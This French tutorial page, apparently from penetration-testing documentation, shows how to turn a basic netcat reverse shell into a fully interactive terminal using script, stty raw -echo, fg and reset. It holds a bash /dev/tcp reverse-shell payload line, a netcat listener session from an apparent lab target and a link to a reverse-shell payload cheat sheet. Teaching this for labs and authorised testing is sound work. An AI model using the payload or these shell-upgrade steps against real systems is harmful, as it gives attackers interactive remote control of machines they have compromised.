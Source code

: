```yaml
---
title: Obtenir un shell propre
sidebar_label: Obtenir un shell propre
pagination_label: Obtenir un shell propre
description: Après avoir injecté votre payload, vous obtenez un reverse shell depuis la commande netcat. Comment améliorer ce shell ?
keywords:
  - docs
  - Reverse shell
  - Netcat
  - Payload
---
```


## Pourquoi améliorer son reverse shell ?

Tout d'abord, si vous n'êtes pas encore à l'aise avec l'injection de reverse shell, je vous suggère de consulter [ce lien](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) pour avoir une liste de payloads à injecter.

Lorsque vous injectez votre payload (exemple: `bash -c 'bash -i >& /dev/tcp/[votre IP]/[port d'ecoute de netcat] 0>&1'`), vous obtenez un reverse shell depuis la commande netcat.

Cependant, ce shell est très limité, vous aurez donc rapidement envie de l'améliorer.

Par exemple il est impossible d'utiliser les flèches pour naviguer dans l'historique des commandes, ou encore d'interrrompre une commande avec `Ctrl+C`.

```bash
user@local$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.104] from (UNKNOWN) [10.10.11.211] 36734
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ^C
user@local$
```

## Comment améliorer son reverse shell ?

### Attacher le shell à un terminal

Pour améliorer votre shell, vous pouvez utiliser la commande `script` pour attacher votre shell à un terminal.

Depuis le shell de la victime, exécutez la commande suivante :

```bash
bash-5.1$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.1$ 
```

Vous obtenez ainsi un second shell, attaché cette fois au TTY.

### Mettre à niveau le shell

Il faut maintenant indiquer à notre terminal local d'enregistrer les entrées clavier et de les envoyer au shell distant.

Mettez d'abord le shell distant en arrirère-plan avec `Ctrl+Z`.

```bash
bash-5.1$ ^Z
[1]+  Stopped                 nc -lvnp 4444
```

Utilisez la commande `stty raw -echo` depuis le shell local: cela permet de désactiver l'affichage des caractères saisis et de les envoyer directement au shell distant.

Remettez le shell distant au premier plan avec `fg`.

```bash
user@local$ stty raw -echo ; fg
```

Pour remettre le curseur au bon endroit, utilisez la commande `reset`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
             reset
```

Si le type de terminal n'est pas reconnu, indiquez `screen`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
            reset
reset: unknown terminal type unknown
Terminal type? screen
```

Vous avez maintenant accès à un shell complètement interactif, dans lequel vous pouvez utiliser les flèches pour naviguer dans l'historique des commandes, ou encore interrompre une commande avec `Ctrl+C`.

```bash
bash-5.1$ ^C
bash-5.1$ ^C
bash-5.1$
```

### Remettre le terminal local à ses valeurs par défaut

Pour quitter le shell distant, utilisez la commande `exit`.
Vous quitterz dans un premier temps le shell attaché au terminal TTY, puis tapez `exit` une seconde fois pour quitter le premier reverse shell.

```bash
bash-5.1$ exit
exit
Script done.
            bash-5.1$ exit
                          exit
user@local$
```

Depuis le shell local, **vous ne voyez plus apparaître les caractères saisis** (puisque vous avez désactivé l'affichage local avec `stty raw -echo`), utilisez la commande `stty sane` pour remettre le terminal à ses valeurs par défaut.

```bash
user@local$ stty sane # Vous tapez la commande sans la voir
user@local$ echo "salut" # Le terminal est remis à ses valeurs par défaut
salut
user@local$
```
